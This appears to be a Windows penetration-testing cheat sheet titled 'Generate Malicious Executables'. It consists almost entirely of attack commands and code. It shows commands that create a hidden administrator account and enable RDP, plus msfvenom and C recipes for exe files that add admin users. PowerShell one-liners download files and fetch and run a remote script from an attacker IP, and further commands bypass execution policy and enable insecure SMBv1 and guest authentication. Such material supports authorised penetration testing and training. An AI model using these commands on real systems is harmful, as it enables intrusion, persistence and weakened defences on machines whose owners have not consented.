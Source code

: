 
# Generate Malicious Executables
## Malicious cmd
### Run executable in backgroud
```
start /B program
```
### Add Admin & Enable RDP
```
net user /add hacked Password1
net localgroup administrators hacked /add
net localgroup Administrateurs hacked /add (For French target)
net localgroup "Remote Desktop Users" hacked /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
```
## Exe builder
### MsfVenom
#### Add admin
\*Note: On x64 machine you should use bat2exe.bat to create 64 bit executable\*
```
1\. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o exploit.exe
2\. Copy the generated file, exploit.exe, to the Windows VM.
```
### GCC
Write and compile malicious exe file to add a user to the system as an admin
#### Add admin
##### Contents of adduser.c
```
#include &lt;stdlib.h&gt;

int main ()
{

	int i;

	i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");

		return 0;
}
```

##### Compile adduser.c on kali
```
sudo i686-w64-mingw32-gcc adduser.c -o exploit.exe
```
# Transfer files
## Powershell
### Downloading files
In PowerShell 2.x:
```
powershell -Command '$WebClient = New-Object System.Net.WebClient;$WebClient.DownloadFile("http://10.0.0.1/path/to/file","C:\path\to\file")'
```  
In PowerShell 3 and above:
```
powershell -Command 'Invoke-WebRequest -Uri "http://10.0.0.1/path/to/file" -OutFile "C:\path\to\file"'

```

### Running a Powershell Script From Command Line
Voir [Cheatsheet]( https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/windows/powershell.rst#running-a-powershell-script-from-command-line ).
```
powershell IEX(New-Object Net.Webclient).downloadstring('http://<attacker-ip>:<attacker-port>/script.ps1')
```    
```
powershell -noexit -file "C:\path\to\script.ps1"
```    
To bypass execution policy:
```
powershell -executionPolicy bypass -noexit -file "C:\path\to\script.ps1"
```
## SMB
### Enable SMBv1 (client)

```
Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All
```
```
Set-ItemProperty -Path   "HKLM:\\SYSTEM\\CurrentControlSet\\Services\\LanmanWorkstation\\Parameters" SMB1 -Type DWORD -Value   1 -Force
```
### Enable SMBv2/3 (client)
```
Enable-WindowsOptionalFeature -Online -FeatureName "SMB2Protocol-Client" -All
```
```
Set-ItemProperty -Path   "HKLM:\\SYSTEM\\CurrentControlSet\\Services\\LanmanWorkstation\\Parameters" SMB2 -Type DWORD -Value   1 -Force
```
### Enable insecure guest authentication (client)
```
Set-itemproperty -name AllowInsecureGuestAuth -path "HKLM:\\System\\CurrentControlSet\\Services\\LanManWorkstation\\Parameters" -value "1"
```
```
reg add "HKLM:\System\CurrentControlSet\Services\LanmanWorkstation\Parameters\AllowInsecureGuestAuth" /v Restrict_Run /t REG_DWORD /d 1 /f
```